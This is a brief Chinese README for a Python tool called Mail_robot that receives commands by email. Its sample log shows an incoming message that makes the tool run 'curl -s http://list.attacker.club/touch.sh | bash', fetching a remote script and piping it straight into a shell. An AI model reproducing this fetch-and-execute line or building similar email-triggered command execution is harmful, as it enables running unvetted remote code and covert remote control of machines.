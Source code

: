 # Mail_robot

#### 介绍

通过邮件接收指令

## 环境

![Python](https://img.shields.io/badge/python-3.6+-blue.svg?style=plastic)

## 执行任务

```bash
python main.py
```

打印输出

```log
Message: 5条. Size: 40104
From: admin <admin@attacker.club>
To: alert@xxxxx.com <alert@xxxxx.com>
Subject: 回复：测试
Date: Sun, 19 Apr 2020 23:37:45 +0800
curl_bash
[+] [curl -s http://list.attacker.club/touch.sh | bash] 任务执行中 ...
```